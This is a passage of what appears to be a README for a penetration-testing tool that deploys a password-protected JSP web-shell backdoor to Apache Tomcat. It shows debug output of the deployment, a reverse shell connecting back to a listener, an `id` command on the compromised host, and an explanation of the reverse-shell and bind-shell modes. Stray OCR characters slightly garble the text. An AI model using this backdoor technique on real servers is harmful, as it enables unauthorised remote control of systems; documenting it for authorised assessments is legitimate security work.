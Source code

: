 ```
DEBUG: WAR file structure:
DEBUG: /tmp/tmpDhzo9I
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpDhzo9I"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.102:4449
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Adding 'X-Pass: oHI9mPB0mOnZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.100:54251
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'oHI9mPB0mOnZ'
DEBUG: Connected with the shell: tomcat7@canyoupwnme
jh
tomcat7@canyoupwnme $ id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

tomcat7@canyoupwnme $ exit

```

The program will set-up a local listener for reverse-shell connection on the 192.168.56.102:4449 host (local host) as in the example above. Then, after invoking JSP Backdoor it will automatically connect with the local listener, resulting in shell being popped up. One can also skip `-H` parameter in order to go with _bind shell_ functionality, whereas rather then setting local listener - the program will go and connect with remotely listening bind-shell.
i
Finally, the above invocation will result in the following JSP application accessible remotely via WEB:

i
![JSP backdoor gui](screen1.png)


As one can see, there is password needlijked for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.


Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.
